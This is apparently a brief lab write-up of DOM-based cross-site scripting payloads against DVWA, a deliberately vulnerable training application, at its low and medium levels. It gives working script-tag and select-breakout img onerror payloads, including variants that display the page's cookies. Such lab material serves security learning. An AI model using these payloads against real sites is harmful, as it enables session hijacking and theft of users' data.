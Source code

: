 LOW

POC:
```
http://dvwa.local/vulnerabilities/xss_d/?default=<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

Now grab cookie:
```
<script>alert(document.cookie)</script>
```

MEDIUM

POC:
```
/option></select><img src='x' onerror='alert(1)'>
```

Now grab cookie:
```
/option></select><img src='x' onerror='alert(document.cookie)'>
```

















